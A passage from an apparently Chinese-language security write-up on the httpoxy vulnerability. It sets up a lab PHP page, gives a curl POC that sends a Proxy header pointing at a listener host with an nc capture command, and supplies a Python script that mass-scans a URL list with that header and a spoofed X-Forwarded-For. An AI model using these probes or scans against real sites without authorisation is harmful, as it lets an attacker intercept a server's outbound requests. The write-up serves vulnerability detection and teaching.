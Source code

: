 ```php
<?php
echo "Wellcome to here, I will post your secret message to tinydawn.com ";
require 'vendor/autoload.php';
$client = new GuzzleHttp\Client();
$client->request('POST', 'http://www.tinydawn.com/', [
    'message' => 'secret message'
]);
?>
```    
- 重启服务器是配置生效:    
`sudo service nginx restart`    
`sudo service php5-fpm restart`    
- 现在访问localhost/127.0.0.1/服务器ip,都可以看到刚才添加的页面了![访问服务器的ip](http://7xkqga.com1.z0.glb.clouddn.com/image/blog/httpoxy%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%90%AD%E5%BB%BA%E6%88%90%E5%8A%9F.png)同时会向www.tinydawn.com POST数据。



## 漏洞检测/扫描/POC/EXP
- 漏洞检测：    
检测这个漏洞很简单，只需要2步：
 1. 给目标网站发送一个带有'Proxy'头的HTTP请求(比如:Proxy: 10.211.55.5:12121)
 2. 在'Proxy'所设置的ip和端口监听，看是否有来自目标ip的数据发过来(比如: 在10.211.55.5机器上监听12121端口)。如果收到了数据，则表示目标机器漏洞存在。

- POC:
    1. 在任意一台主机执行:    
```shell
curl -H "Proxy:10.211.55.5:12121" http://target.com/x.php
```
    2. 在10.211.55.5上执行:    
```shell
nc -lvv -p 12121 >> httpoxy.log
```
(感谢[Wils0n](http://blog.wils0n.cn/)提供帮助)
如果`http://target.com/x.php`页面存在漏洞，将会在httpoxy.log中出现连接信息。
![成功截取到服务器发送的数据](http://7xkqga.com1.z0.glb.clouddn.com/image/blog/httpoxy%E5%B7%B2%E7%BB%8F%E6%88%AA%E5%8F%96%E5%88%B0%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%8F%91%E9%80%81%E7%9A%84%E6%95%B0%E6%8D%AE.png)
- 批量扫描:
这时候就需要我们万能的动态爬虫了，首先爬取整个目标网站的url，然后逐个向这些url逐个发送带有Proxy头的HTTP连接，同时在Proxy指定的机器上运行一个webserver，端口指定为Proxy中指定的端口，每次收到连接时，都将连接的信息保存下来，然后响应404。如果不设置响应，目标网站将会一直等待到超时才向我们的扫描器返回数据。下附一个单线程扫描器的Python代码，接收数据的webserver就不提供了，如果只是用来做安全监测，netcat够用了。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Taerg'

import requests
import datetime
starttime = datetime.datetime.now()

fpi = open('urls.txt','r')
urls = fpi.readlines()
for url in urls:
    print(url)
    header = {
        'Proxy' : '10.211.55.5:12121',
        'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64; rv:38.0) Gecko/20100101 Firefox/38.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'X-Forwarded-For': '8.8.8.8',
        'Connection': 'keep-alive'
    }
    r = requests.get(url, headers = header)
```